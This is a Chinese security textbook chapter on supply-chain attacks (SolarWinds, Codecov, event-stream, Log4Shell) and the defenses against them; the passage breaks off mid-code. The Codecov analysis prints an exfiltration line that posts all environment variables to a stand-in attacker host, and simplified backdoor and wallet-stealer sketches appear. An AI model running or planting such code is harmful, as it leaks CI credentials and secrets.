


# 7.2 供应链攻击与防御

## 概述

软件供应链攻击的核心逻辑在于攻击路径选择：相较于直接攻击防御成熟的目标组织，渗透其供应链中的薄弱环节能够以较低成本实现对多个下游目标的批量入侵。本节通过剖析已公开披露的攻击案例，归纳攻击模式并推导防御控制点。

---

## 7.2.1 供应链攻击分类

### 攻击向量矩阵

供应链攻击可按攻击介入的阶段进行分类，不同攻击类型具有不同的技术特征和影响范围。下表从攻击类型、目标阶段、典型技术和影响范围四个维度进行归纳，便于安全团队识别和评估风险。

| 攻击类型 | 目标阶段 | 典型技术 | 影响范围 |
|---------|---------|---------|---------|
| 源代码投毒 | 开发 | 账户劫持、恶意提交 | 所有下游用户 |
| 构建系统入侵 | 构建 | CI/CD 注入、编译器后门 | 特定构建产物 |
| 依赖混淆 | 依赖 | 拼写劫持、命名劫持 | 特定技术栈 |
| 第三方组件篡改 | 分发 | 仓库入侵、镜像攻击 | 特定组件用户 |
| 签名密钥窃取 | 分发 | 证书窃取、HSM 攻击 | 信任该密钥的所有用户 |
| 更新机制劫持 | 部署 | 中间人、DNS 劫持 | 自动更新用户 |

上表表明，攻击点越靠近供应链上游（开发/构建阶段），潜在影响范围越广。防御资源分配应优先覆盖开发与构建环节，同时在分发和部署阶段建立验证机制作为纵深防御。


---

## 7.2.2 经典攻击案例剖析

### Case 1: SolarWinds 供应链攻击 (2020)

#### 攻击时间线

该事件从初始入侵到公开披露历时超过一年：2019 年 9 月攻击者进入 SolarWinds 内网；2020 年 2 月注入 SUNBURST 后门；2020 年 3 月首次分发含后门更新；2020 年 12 月被安全厂商发现并公开披露。

#### 攻击流程分解

**阶段一：初始入侵**

攻击者利用弱凭证进入 SolarWinds 内网后，横向移动至构建环境，最终在源代码仓库植入后门。该阶段暴露的防御缺口包括：缺乏多因素认证（MFA）、构建环境与企业网未隔离、无强制代码审计流程。

**阶段二：供应链武器化**

后门代码展示了高级规避技术：休眠机制（避开沙箱检测）、环境检测（识别分析环境后静默退出）、域名生成算法（DGA）生成 C2 通信地址、利用合法 Orion 进程建立隐蔽通道。以下为简化的后门逻辑示意：

```csharp
// SUNBURST 后门核心逻辑（简化示意）
public class OrionImprovementBusinessLayer
{
    static OrionImprovementBusinessLayer()
    {
        // 休眠 12-14 天以躲避沙箱检测
        Thread.Sleep(RandomDelay(12, 14));

        // 检查是否在分析环境中
        if (!IsAnalysisEnvironment())
        {
            // 使用 DGA 生成 C2 域名
            string c2Domain = GenerateC2Domain();

            // 通过合法 Orion 进程建立隐蔽通道
            EstablishC2Connection(c2Domain);
        }
    }
}
```

**阶段三：大规模分发**

含后门的更新通过正常软件更新渠道分发至 Orion 平台的客户，攻击者在部分目标网络中潜伏数月未被察觉。

#### 关键技术特征

该攻击的技术特征包括：使用合法证书签名的二进制文件（绕过签名验证）、环境检查与 DGA（规避分析）、伪装为 Orion 正常流量（隐蔽 C2 通信）、分阶段载荷投递（初始仅侦察，后续按需投递工具）。

#### 防御教训与控制设计

基于该案例，构建环境安全基线应包含以下控制：

```yaml
# 构建环境安全基线
build_security:
  network_isolation:
    - 构建网络与企业网完全隔离
    - 仅允许通过跳板机访问
  access_control:
    - 所有访问需 MFA + 硬件令牌
    - 最小权限原则
  code_review:
    - 所有代码变更需双人审核
    - 自动化检测可疑导入和网络调用
  build_integrity:
    - 使用 Hermetic Builds（如 Bazel）
    - 生成 SLSA Level 3+ 证明
```

**适用边界**：该基线适用于面向外部客户分发软件的组织；纯内部系统可根据风险评估适度简化。

**常见误区**：一是认为签名即安全——签名仅证明来源，不证明代码本身无恶意；二是构建环境访问控制松散，允许开发者直接访问生产构建系统。

**验证方法**：红队模拟从开发者工作站横向移动至构建环境；审计构建日志中的异常网络连接；验证构建产物哈希与源代码的对应关系。

**运行指标**：构建环境异常登录次数（阈值：任何非预期 IP 登录触发告警）；代码审核通过率（跟踪绕过审核的提交比例）；构建产物签名验证失败次数。

---

### Case 2: Codecov Bash Uploader 篡改 (2021)

#### 攻击向量

攻击者利用 Docker 镜像创建过程中的配置错误，修改了 Codecov 的 Bash Uploader 脚本，插入窃取环境变量的恶意代码。

#### 恶意代码分析

```bash
# 原始合法脚本
#!/bin/bash
set -e pipefail
curl -s https://codecov.io/env | bash

# 被篡改版本
#!/bin/bash
set -e pipefail

# 新增：窃取环境变量
env | curl -X POST -d @- https://attacker-controlled-server.com/collect

# 原有功能保持不变以避免检测
curl -s https://codecov.io/env | bash
```

#### 攻击时间线

2021 年 1 月 31 日脚本被篡改；2021 年 4 月 1 日开始活跃数据窃取；2021 年 4 月 15 日 Codecov 发现异常。攻击持续约 2.5 个月未被发现。

#### 影响范围

大量企业的 CI/CD 凭证暴露，包括云平台访问令牌、数据库密码、API 密钥等敏感信息。

#### 防御措施

**1. CI/CD 脚本完整性验证**

```yaml
# GitHub Actions 示例：验证外部脚本
name: Secure Codecov Upload
on: [push]
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Run tests with coverage
        run: pytest --cov=./ --cov-report=xml

      - name: Verify Codecov script integrity
        run: |
          # 下载脚本
          curl -o codecov.sh https://codecov.io/bash

          # 验证 SHA256 哈希（从可信源获取）
          echo "expected_hash_here codecov.sh" | sha256sum -c -

      - name: Upload coverage
        uses: codecov/codecov-action@v3
        with:
          token: ${{ secrets.CODECOV_TOKEN }}
          file: ./coverage.xml
          fail_ci_if_error: true
```

**2. 环境变量隔离策略**

```bash
#!/bin/bash
# CI/CD 环境变量最小化暴露

# 错误做法：所有环境变量都可访问
curl -s https://third-party-script.com/install.sh | bash

# 正确做法：仅传递必要变量
env -i \
  PATH="/usr/local/bin:/usr/bin:/bin" \
  HOME="$HOME" \
  CODECOV_TOKEN="$CODECOV_TOKEN" \
  bash -c "curl -s https://codecov.io/bash | bash"
```

**3. 出站网络监控**

使用 Falco 等运行时安全工具检测 CI 环境中的异常网络连接：

```yaml
# /etc/falco/rules.d/ci_security.yaml
- rule: Unexpected Outbound Connection from CI
  desc: Detect connections to non-whitelisted destinations in CI environment
  condition: >
    (container.image.repository = "jenkins" or
     container.image.repository = "gitlab-runner") and
    (fd.sip != "0.0.0.0" and
     fd.sip not in (ci_allowed_destinations))
  output: >
    Suspicious outbound connection in CI environment
    (command=%proc.cmdline connection=%fd.name user=%user.name)
  priority: WARNING
  tags: [network, ci_cd]
```

**适用边界**：环境变量隔离适用于调用第三方脚本的 CI/CD 流程；对于完全自建脚本的流程，重点转向脚本存储库的访问控制。

**常见误区**：一是假设官方 Action/脚本始终安全——供应商自身也可能被入侵；二是未区分构建时凭证与运行时凭证，导致构建环境能访问生产数据库。

**验证方法**：在 CI 环境中执行 `env` 命令，验证暴露的变量是否符合预期；审计出站网络日志，检查是否存在非白名单目标。

**运行指标**：CI/CD 作业中的异常出站连接数（阈值：任何非白名单连接触发告警）；环境变量泄露检测（监控含敏感模式的数据外传）。

---

### Case 3: NPM 包劫持——event-stream (2018)

#### 攻击手法

攻击者通过社会工程手段获得维护者权限，向广泛使用的 NPM 包注入针对特定加密货币钱包的窃取代码。

#### 攻击流程

攻击分三阶段推进：首先以"帮助维护"为名联系原维护者并获取发布权限；随后发布包含恶意依赖（flatmap-stream）的版本；最后，恶意代码仅在检测到目标钱包应用时触发，以缩小暴露面。

```javascript
// flatmap-stream@0.1.1 的恶意代码（简化）
try {
  // 检测是否在目标应用中运行
  if (require.resolve('copay-dash')) {

    // 解密嵌入的恶意载荷
    const decrypted = decrypt(hardcodedEncryptedCode);

    // 执行窃取钱包私钥的代码
    eval(decrypted);
  }
} catch (e) {
  // 静默失败以避免检测
}
```

#### 影响范围

该包周下载量达到高峰时期，受影响应用包括 Copay/BitPay 钱包，攻击窗口约 2 个月。

#### 防御策略

**1. 依赖审计与锁定**

```json
// package.json - 使用精确版本锁定
{
  "dependencies": {
    "event-stream": "=3.3.4"  // 精确锁定版本，避免自动升级
  }
}
```

```bash
# 使用 npm audit 检测已知漏洞
npm audit --audit-level=moderate

# 使用 Snyk 进行持续监控
snyk test
snyk monitor
```

**2. 依赖变更监控**

```yaml
# GitHub Actions: 依赖变更告警
name: Dependency Monitor
on:
  pull_request:
    paths:
      - 'package.json'
      - 'package-lock.json'
      - 'yarn.lock'

jobs:
  check-dependencies:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0

      - name: Check for new dependencies
        run: |
          git diff HEAD~1 HEAD -- package.json | grep '^\+.*"' || true

      - name: Analyze transitive dependencies
        run: |
          npm ls --all > deps_new.txt
          git checkout HEAD~1
          npm ls --all > deps_old.txt
          diff deps_old.txt deps_new.txt || true

      - name: Run security scan
        run: |
          npm audit --production
          npx snyk test --severity-threshold=high
```

**3. 包维护者变更监控**

```python
import requests
import json
from datetime import datetime

def check_npm_maintainers(package_name, known_maintainers):
    """检查 NPM 包维护者是否发生变化"""
    url = f"https://registry.npmjs.org/{package_name}"
    response = requests.get(url)
    data = response.json()

    current_maintainers = set(m['name'] for m in data.get('maintainers', []))
    known_set = set(known_maintainers)

    added = current_maintainers - known_set
    removed = known_set - current_maintainers

    if added or removed:
        alert = {
            'package': package_name,
            'timestamp': datetime.utcnow().isoformat(),
            'added_maintainers': list(added),
            'removed_maintainers': list(removed),
            'severity': 'HIGH' if removed else 'MEDIUM'
        }
        send_security_alert(alert)
        return False
    return True

# 使用示例
critical_packages = {
    'express': ['dougwilson', 'mikeal'],
    'lodash': ['jdalton', 'mathias'],
    'axios': ['mzabriskie']
}

for pkg, maintainers in critical_packages.items():
    check_npm_maintainers(pkg, maintainers)
```

**适用边界**：维护者监控适用于关键依赖（直接影响核心功能或安全功能的包）；对于间接依赖，可通过 SCA 工具的已知漏洞检测覆盖。

**关键约束**：维护者变更并非必然恶意，误报可能导致告警疲劳；需结合变更内容审查才能判定风险。

**常见误区**：一是仅关注直接依赖，忽略间接依赖（传递性依赖）可能引入的风险；二是依赖版本范围过宽（如 `^1.0.0`），导致自动拉取含漏洞的新版本。

**验证方法**：定期生成依赖树快照并对比变更；模拟维护者变更场景验证告警是否触发。

**运行指标**：关键包维护者变更次数（任何变更触发审查流程）；依赖版本漂移率（跟踪 lock 文件与实际安装版本的差异）。



---

### Case 4: Log4Shell 供应链影响 (CVE-2021-44228)

#### 漏洞特性

Log4Shell 并非传统意义上的供应链攻击，但其影响范围展示了供应链依赖的放大效应：单个组件的漏洞通过依赖关系传播至大量下游应用。

#### 依赖传播路径示例

```
Apache Log4j 2.x
    ↓ (直接依赖)
Apache Struts, Spring Boot, Apache Solr
    ↓ (间接依赖)
大量企业应用和云服务
    ↓ (最终影响)
大规模服务器受影响
```

#### 应急响应自动化

以下脚本演示了 Log4Shell 应急扫描与缓解的自动化流程：

```python
#!/usr/bin/env python3
"""Log4Shell 应急扫描与修复脚本"""
import subprocess
import json
import os
from pathlib import Path

def scan_containers_for_log4j():
    """扫描所有容器镜像中的 Log4j 库"""
    result = subprocess.run(
        ['docker', 'images', '--format', '{{.Repository}}:{{.Tag}}'],
        capture_output=True, text=True, check=True
    )
    images = result.stdout.strip().split('\n')

    vulnerable_images = []

    for image in images:
        if not image:
            continue

        scan_result = subprocess.run(
            ['trivy', 'image', '--severity', 'CRITICAL,HIGH',
             '--vuln-type', 'library', '--format', 'json', image],
            capture_output=True, text=True, check=True
        )

        data = json.loads(scan_result.stdout)

        for result in data.get('Results', []):
            for vuln in result.get('Vulnerabilities', []):
                if 'log4j' in vuln.get('PkgName', '').lower():
                    if vuln.get('VulnerabilityID') in ['CVE-2021-44228', 'CVE-2021-45046']:
                        vulnerable_images.append({
                            'image': image,
                            'package': vuln['PkgName'],
                            'version': vuln['InstalledVersion'],
                            'cve': vuln['VulnerabilityID'],
                            'severity': vuln['Severity']
                        })

    return vulnerable_images

def apply_emergency_mitigations(vulnerable_images):
    """应用紧急缓解措施"""
    mitigations = []

    for vuln in vulnerable_images:
        image = vuln['image']

        mitigation = f"""
# 紧急缓解 Log4Shell
FROM {image}
ENV JAVA_OPTS="$JAVA_OPTS -Dlog4j2.formatMsgNoLookups=true"
ENV LOG4J_FORMAT_MSG_NO_LOOKUPS=true
"""

        temp_dir = Path(f'/tmp/log4shell-mitigation-{hash(image)}')
        temp_dir.mkdir(exist_ok=True)

        dockerfile_path = temp_dir / 'Dockerfile'
        dockerfile_path.write_text(mitigation)

        patched_tag = f"{image}-log4shell-patched"
        subprocess.run(
            ['docker', 'build', '-t', patched_tag, str(temp_dir)],
            check=True
        )

        mitigations.append({
            'original': image,
            'patched': patched_tag,
            'method': 'JVM parameter mitigation'
        })

    return mitigations

def generate_incident_report(vulnerable_images, mitigations):
    """生成事件响应报告"""
    report = {
        'timestamp': subprocess.check_output(['date', '-u']).decode().strip(),
        'vulnerability': 'CVE-2021-44228 (Log4Shell)',
        'total_images_scanned': len(vulnerable_images),
        'vulnerable_images': vulnerable_images,
        'mitigations_applied': mitigations,
        'recommended_actions': [
            '立即更新到 Log4j 2.17.1+',
            '部署 WAF 规则阻止 JNDI 攻击模式',
            '监控异常出站连接',
            '审查日志寻找攻击痕迹'
        ]
    }

    with open('/tmp/log4shell_incident_report.json', 'w') as f:
        json.dump(report, f, indent=2)

    return report

if __name__ == '__main__':
    print("扫描容器镜像中的 Log4Shell 漏洞...")

    vulnerable = scan_containers_for_log4j()

    if vulnerable:
        print(f"发现 {len(vulnerable)} 个受影响的镜像")
        print("应用紧急缓解措施...")
        mitigations = apply_emergency_mitigations(vulnerable)
        print("生成事件报告...")
        report = generate_incident_report(vulnerable, mitigations)
        print(f"报告已保存至: /tmp/log4shell_incident_report.json")
    else:
        print("未发现受影响的镜像")
```

**适用边界**：JVM 参数缓解仅适用于 Log4j 2.10+ 版本；更低版本需移除 JndiLookup 类或直接升级。

**关键约束**：紧急缓解措施可能影响合法的日志格式化功能；正式修复仍需升级到安全版本。

**常见误区**：一是仅修复直接依赖中的 Log4j，忽略间接依赖（如 Spring Boot Starter 内嵌的版本）；二是认为缓解措施等同于修复，未跟进正式版本升级。

**验证方法**：使用 JNDI 测试载荷验证缓解措施有效性；扫描 WAF 日志确认攻击流量被阻断。

**运行指标**：Log4j 相关 CVE 的修复覆盖率（跟踪所有包含 Log4j 的应用升级状态）；WAF 拦截的 JNDI 攻击尝试次数；应急缓解措施的持续时间（超期未正式修复触发告警）。

---

## 7.2.3 攻击杀伤链模型

### MITRE ATT&CK 供应链攻击战术映射

将供应链攻击映射到 MITRE ATT&CK 框架有助于系统化理解攻击路径并设计检测机制。下表覆盖从初始访问到影响的关键战术。

| 战术阶段 | ATT&CK ID | 技术示例 | 检测方法 |
|---------|-----------|---------|---------|
| 初始访问 | T1195.001 | 源代码库入侵 | 代码审计、异常提交检测 |
| 初始访问 | T1195.002 | 软件依赖篡改 | 依赖哈希验证、SBOM 对比 |
| 执行 | T1059 | 恶意脚本执行 | 脚本完整性检查 |
| 持久化 | T1554 | 编译器后门 | 构建环境基线监控 |
| 防御规避 | T1027 | 代码混淆 | 静态分析、行为监控 |
| 凭证访问 | T1552.001 | CI/CD 凭证窃取 | 环境变量监控 |
| 横向移动 | T1072 | 软件更新劫持 | 更新签名验证 |
| 影响 | T1485 | 数据破坏 | 数据完整性监控 |

表中检测方法需要结合 SIEM/SOAR 平台和运行时安全工具实现自动化。单一检测手段覆盖有限，应组合使用以提高检测率。

### 防御纵深架构

供应链安全防御需要在多个层面建立控制，从源代码安全到监控响应形成完整的防护链。以下为七层防御模型：

```
┌─────────────────────────────────────────────────────────────────┐
│                    供应链安全防御层                              │
└─────────────────────────────────────────────────────────────────┘

    ┌───────────────────────────────────────────────────────────┐
    │ Layer 7: 监控与响应                                        │
    │ - SIEM 集成                                                │
    │ - 威胁情报                                                 │
    │ - 事件响应                                                 │
    └───────────────────────────────────────────────────────────┘
                                ↓
    ┌───────────────────────────────────────────────────────────┐
    │ Layer 6: 运行时保护                                        │
    │ - 容器运行时安全                                           │
    │ - 行为分析                                                 │
    │ - 异常检测                                                 │
    └───────────────────────────────────────────────────────────┘
                                ↓
    ┌───────────────────────────────────────────────────────────┐
    │ Layer 5: 部署验证                                          │
    │ - 准入控制 (OPA/Kyverno)                                   │
    │ - 签名验证 (Cosign)                                        │
    │ - 策略执行                                                 │
    └───────────────────────────────────────────────────────────┘
                                ↓
    ┌───────────────────────────────────────────────────────────┐
    │ Layer 4: 分发安全                                          │
    │ - 制品签名                                                 │
    │ - 镜像仓库安全                                             │
    │ - 传输加密                                                 │
    └───────────────────────────────────────────────────────────┘
                                ↓
    ┌───────────────────────────────────────────────────────────┐
    │ Layer 3: 构建完整性                                        │
    │ - Hermetic builds                                          │
    │ - SLSA 证明                                                │
    │ - 构建环境隔离                                             │
    └───────────────────────────────────────────────────────────┘
                                ↓
    ┌───────────────────────────────────────────────────────────┐
    │ Layer 2: 依赖管理                                          │
    │ - SCA 扫描                                                 │
    │ - SBOM 生成                                                │
    │ - 许可证合规                                               │
    └───────────────────────────────────────────────────────────┘
                                ↓
    ┌───────────────────────────────────────────────────────────┐
    │ Layer 1: 源代码安全                                        │
    │ - 代码审计                                                 │
    │ - SAST 扫描                                                │
    │ - 提交签名                                                 │
    └───────────────────────────────────────────────────────────┘
```

各层控制应相互独立又协同工作：即使某一层被突破，其他层仍能提供检测或阻断能力。

**适用边界**：ATT&CK 映射适用于具备威胁检测能力的组织；防御纵深架构适用于有多阶段软件交付流程的组织。对于仅使用 SaaS 产品、无自建软件的组织，重点应放在供应商评估而非内部构建控制。

**关键约束**：七层防御模型需要相应的工具和人员投入；各层工具间可能存在告警重复或覆盖空白，需要统一的告警聚合机制。

**常见误区**：一是将 ATT&CK ID 作为检测规则直接部署，忽略环境适配和误报调优；二是防御层级建设不均衡，如过度投入源代码安全而忽视运行时保护。

**验证方法**：使用紫队演练验证各层检测能力；定期审计各层控制的覆盖率和有效性；通过攻击模拟平台测试检测规则触发率。

**运行指标**：各层告警数量与处置率；跨层告警关联成功率；防御层级覆盖完整度（定期评估各层是否存在空白）。

---

## 7.2.4 自动化防御实施

### 完整的 CI/CD 安全管道

以下 GitHub Actions 配置展示了从源代码安全到部署批准的完整安全管道：

```yaml
# .github/workflows/secure-pipeline.yaml
name: Secure Supply Chain Pipeline

on:
  push:
    branches: [main, develop]
  pull_request:
    branches: [main]

env:
  REGISTRY: ghcr.io
  IMAGE_NAME: ${{ github.repository }}

jobs:
  # 阶段 1: 源代码安全
  source-security:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0

      - name: Verify commit signatures
        run: |
          git log --show-signature -10

      - name: Run SAST scan
        uses: github/codeql-action/analyze@v2

      - name: Check for secrets
        uses: trufflesecurity/trufflehog@main
        with:
          path: ./
          base: ${{ github.event.repository.default_branch }}
          head: HEAD

  # 阶段 2: 依赖安全
  dependency-security:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Generate SBOM
        uses: anchore/sbom-action@v0
        with:
          path: ./
          format: cyclonedx-json
          output-file: sbom.cyclonedx.json

      - name: Scan dependencies
        uses: aquasecurity/trivy-action@master
        with:
          scan-type: 'fs'
          scan-ref: '.'
          format: 'sarif'
          output: 'trivy-results.sarif'
          severity: 'CRITICAL,HIGH'

      - name: Upload SBOM
        uses: actions/upload-artifact@v3
        with:
          name: sbom
          path: sbom.cyclonedx.json

      - name: Check for malicious packages
        run: |
          npx @socketsecurity/cli scan

  # 阶段 3: 安全构建
  secure-build:
    needs: [source-security, dependency-security]
    runs-on: ubuntu-latest
    permissions:
      contents: read
      packages: write
      id-token: write

    steps:
      - uses: actions/checkout@v4

      - name: Set up Docker Buildx
        uses: docker/setup-buildx-action@v2

      - name: Log in to registry
        uses: docker/login-action@v2
        with:
          registry: ${{ env.REGISTRY }}
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}

      - name: Extract metadata
        id: meta
        uses: docker/metadata-action@v4
        with:
          images: ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}
          tags: |
            type=ref,event=branch
            type=ref,event=pr
            type=semver,pattern={{version}}
            type=sha,prefix={{branch}}-

      - name: Build and push image
        id: build
        uses: docker/build-push-action@v4
        with:
          context: .
          push: true
          tags: ${{ steps.meta.outputs.tags }}
          labels: ${{ steps.meta.outputs.labels }}
          cache-from: type=gha
          cache-to: type=gha,mode=max
          provenance: true
          sbom: true

      - name: Install Cosign
        uses: sigstore/cosign-installer@v3

      - name: Sign container image
        run: |
          cosign sign --yes \
            ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}@${{ steps.build.outputs.digest }}

      - name: Generate SLSA provenance
        uses: slsa-framework/slsa-github-generator/.github/workflows/generator_container_slsa3.yml@v1.9.0
        with:
          image: ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}
          digest: ${{ steps.build.outputs.digest }}

  # 阶段 4: 镜像安全扫描
  image-security:
    needs: secure-build
    runs-on: ubuntu-latest
    steps:
      - name: Run Trivy vulnerability scanner
        uses: aquasecurity/trivy-action@master
        with:
          image-ref: ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}:${{ github.sha }}
          format: 'sarif'
          output: 'trivy-image-results.sarif'
          severity: 'CRITICAL,HIGH'

      - name: Upload scan results to GitHub Security
        uses: github/codeql-action/upload-sarif@v2
        with:
          sarif_file: 'trivy-image-results.sarif'

      - name: Fail on critical vulnerabilities
        uses: aquasecurity/trivy-action@master
        with:
          image-ref: ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}:${{ github.sha }}
          exit-code: '1'
          ignore-unfixed: true
          severity: 'CRITICAL'

  # 阶段 5: 策略验证
  policy-check:
    needs: image-security
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Install Cosign
        uses: sigstore/cosign-installer@v3

      - name: Verify image signature
        run: |
          cosign verify \
            --certificate-identity-regexp="^https://github.com/${{ github.repository }}" \
            --certificate-oidc-issuer="https://token.actions.githubusercontent.com" \
            ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}:${{ github.sha }}

      - name: Verify SLSA provenance
        run: |
          cosign verify-attestation \
            --type slsaprovenance \
            --certificate-identity-regexp="^https://github.com/${{ github.repository }}" \
            --certificate-oidc-issuer="https://token.actions.githubusercontent.com" \
            ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}:${{ github.sha }}

      - name: Run OPA policy checks
        run: |
          docker run --rm -v $(pwd)/policies:/policies \
            openpolicyagent/conftest test \
            --policy /policies \
            ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}:${{ github.sha }}

  # 阶段 6: 部署批准
  deployment-gate:
    needs: policy-check
    runs-on: ubuntu-latest
    environment: production
    steps:
      - name: Deployment approved
        run: |
          echo "镜像通过所有安全检查，已批准部署"
```



### OPA 策略示例

```rego
# policies/supply_chain.rego
package supply_chain

# 规则 1: 禁止未签名的镜像
deny[msg] {
    not input.signature_verified
    msg := "Image must be signed with Cosign"
}

# 规则 2: 禁止有可修复高危漏洞的镜像
deny[msg] {
    some i
    vuln := input.vulnerabilities[i]
    vuln.severity == "CRITICAL"
    not vuln.fixed_version == ""
    msg := sprintf("CRITICAL vulnerability %s has available fix", [vuln.id])
}

# 规则 3: 要求 SLSA Level 3+
deny[msg] {
    input.slsa_level < 3
    msg := "Image must have SLSA Level 3 or higher provenance"
}

# 规则 4: 禁止特权容器
deny[msg] {
    input.image_config.privileged == true
    msg := "Privileged containers are not allowed"
}

# 规则 5: 要求 SBOM 存在
deny[msg] {
    not input.sbom_available
    msg := "Image must have an embedded SBOM"
}

# 规则 6: 检查基础镜像来源
deny[msg] {
    base_image := input.base_image
    not startswith(base_image, "cgr.dev/chainguard")
    not startswith(base_image, "gcr.io/distroless")
    not startswith(base_image, "docker.io/library")
    msg := sprintf("Base image %s is not from approved registry", [base_image])
}
```

**适用边界**：OPA 策略适用于 Kubernetes 准入控制；非 K8s 环境需通过其他机制（如 CI 阶段检查）执行策略。

**关键约束**：策略执行增加部署延迟；策略过严可能阻断正常发布，需要建立例外审批流程。

**常见误区**：一是策略仅在 CI 阶段检查，未在准入控制层执行，导致手动推送绕过检查；二是策略与开发团队沟通不足，导致大量构建失败。

**验证方法**：尝试部署违反策略的镜像，验证是否被拒绝；审计准入控制日志确认策略覆盖率。

**运行指标**：策略违规次数（按规则类型分类）；策略例外申请数量（跟踪趋势以评估策略合理性）；部署成功率（排除因策略拒绝导致的失败）。

---

## 7.2.5 威胁情报集成

### 供应链威胁情报源

将威胁情报集成到供应链安全流程中，可实现对已知威胁的主动检测。下表列出主要情报源的特征。

| 情报源 | 类型 | 覆盖范围 | 更新频率 | API 可用性 |
|-------|------|---------|---------|-----------|
| CISA KEV | 官方 | 已被利用漏洞 | 每日 | JSON |
| MITRE ATT&CK | 框架 | 战术技术矩阵 | 季度 | JSON/TAXII |
| OSV Database | 社区 | 开源组件 | 实时 | REST API |
| GitHub Advisory | 平台 | 依赖漏洞 | 实时 | GraphQL |
| Socket.dev | 商业 | 恶意包检测 | 实时 | REST API |
| Snyk Vuln DB | 商业 | 多语言生态 | 实时 | REST API |

情报源的选择应基于组织使用的技术栈和预算约束。CISA KEV 和 OSV 为免费公开数据，商业情报源提供更深入的分析和更快的响应。

### 自动化威胁情报处理

以下代码展示了威胁情报聚合与 SBOM 关联的实现思路：

```python
#!/usr/bin/env python3
"""供应链威胁情报聚合与告警系统"""
import requests
import json
from datetime import datetime, timedelta
from typing import List, Dict
import sqlite3

class SupplyChainThreatIntel:
    def __init__(self, db_path='threat_intel.db'):
        self.db = sqlite3.connect(db_path)
        self.init_database()

    def init_database(self):
        """初始化威胁情报数据库"""
        self.db.execute('''
            CREATE TABLE IF NOT EXISTS threats (
                id TEXT PRIMARY KEY,
                source TEXT,
                severity TEXT,
                package_name TEXT,
                package_ecosystem TEXT,
                description TEXT,
                first_seen TIMESTAMP,
                last_updated TIMESTAMP,
                remediation TEXT
            )
        ''')
        self.db.commit()

    def fetch_cisa_kev(self) -> List[Dict]:
        """获取 CISA 已知被利用漏洞目录"""
        url = "https://www.cisa.gov/sites/default/files/feeds/known_exploited_vulnerabilities.json"
        response = requests.get(url)
        data = response.json()

        threats = []
        for vuln in data['vulnerabilities']:
            date_added = datetime.strptime(vuln['dateAdded'], '%Y-%m-%d')
            if datetime.now() - date_added < timedelta(days=30):
                threats.append({
                    'id': vuln['cveID'],
                    'source': 'CISA KEV',
                    'severity': 'CRITICAL',
                    'description': vuln['vulnerabilityName'],
                    'remediation': vuln['requiredAction'],
                    'deadline': vuln['dueDate']
                })

        return threats

    def fetch_osv_threats(self, ecosystem: str, package: str) -> List[Dict]:
        """查询 OSV 数据库中的威胁"""
        url = "https://api.osv.dev/v1/query"
        payload = {
            "package": {
                "name": package,
                "ecosystem": ecosystem
            }
        }

        response = requests.post(url, json=payload)
        data = response.json()

        threats = []
        for vuln in data.get('vulns', []):
            threats.append({
                'id': vuln['id'],
                'source': 'OSV',
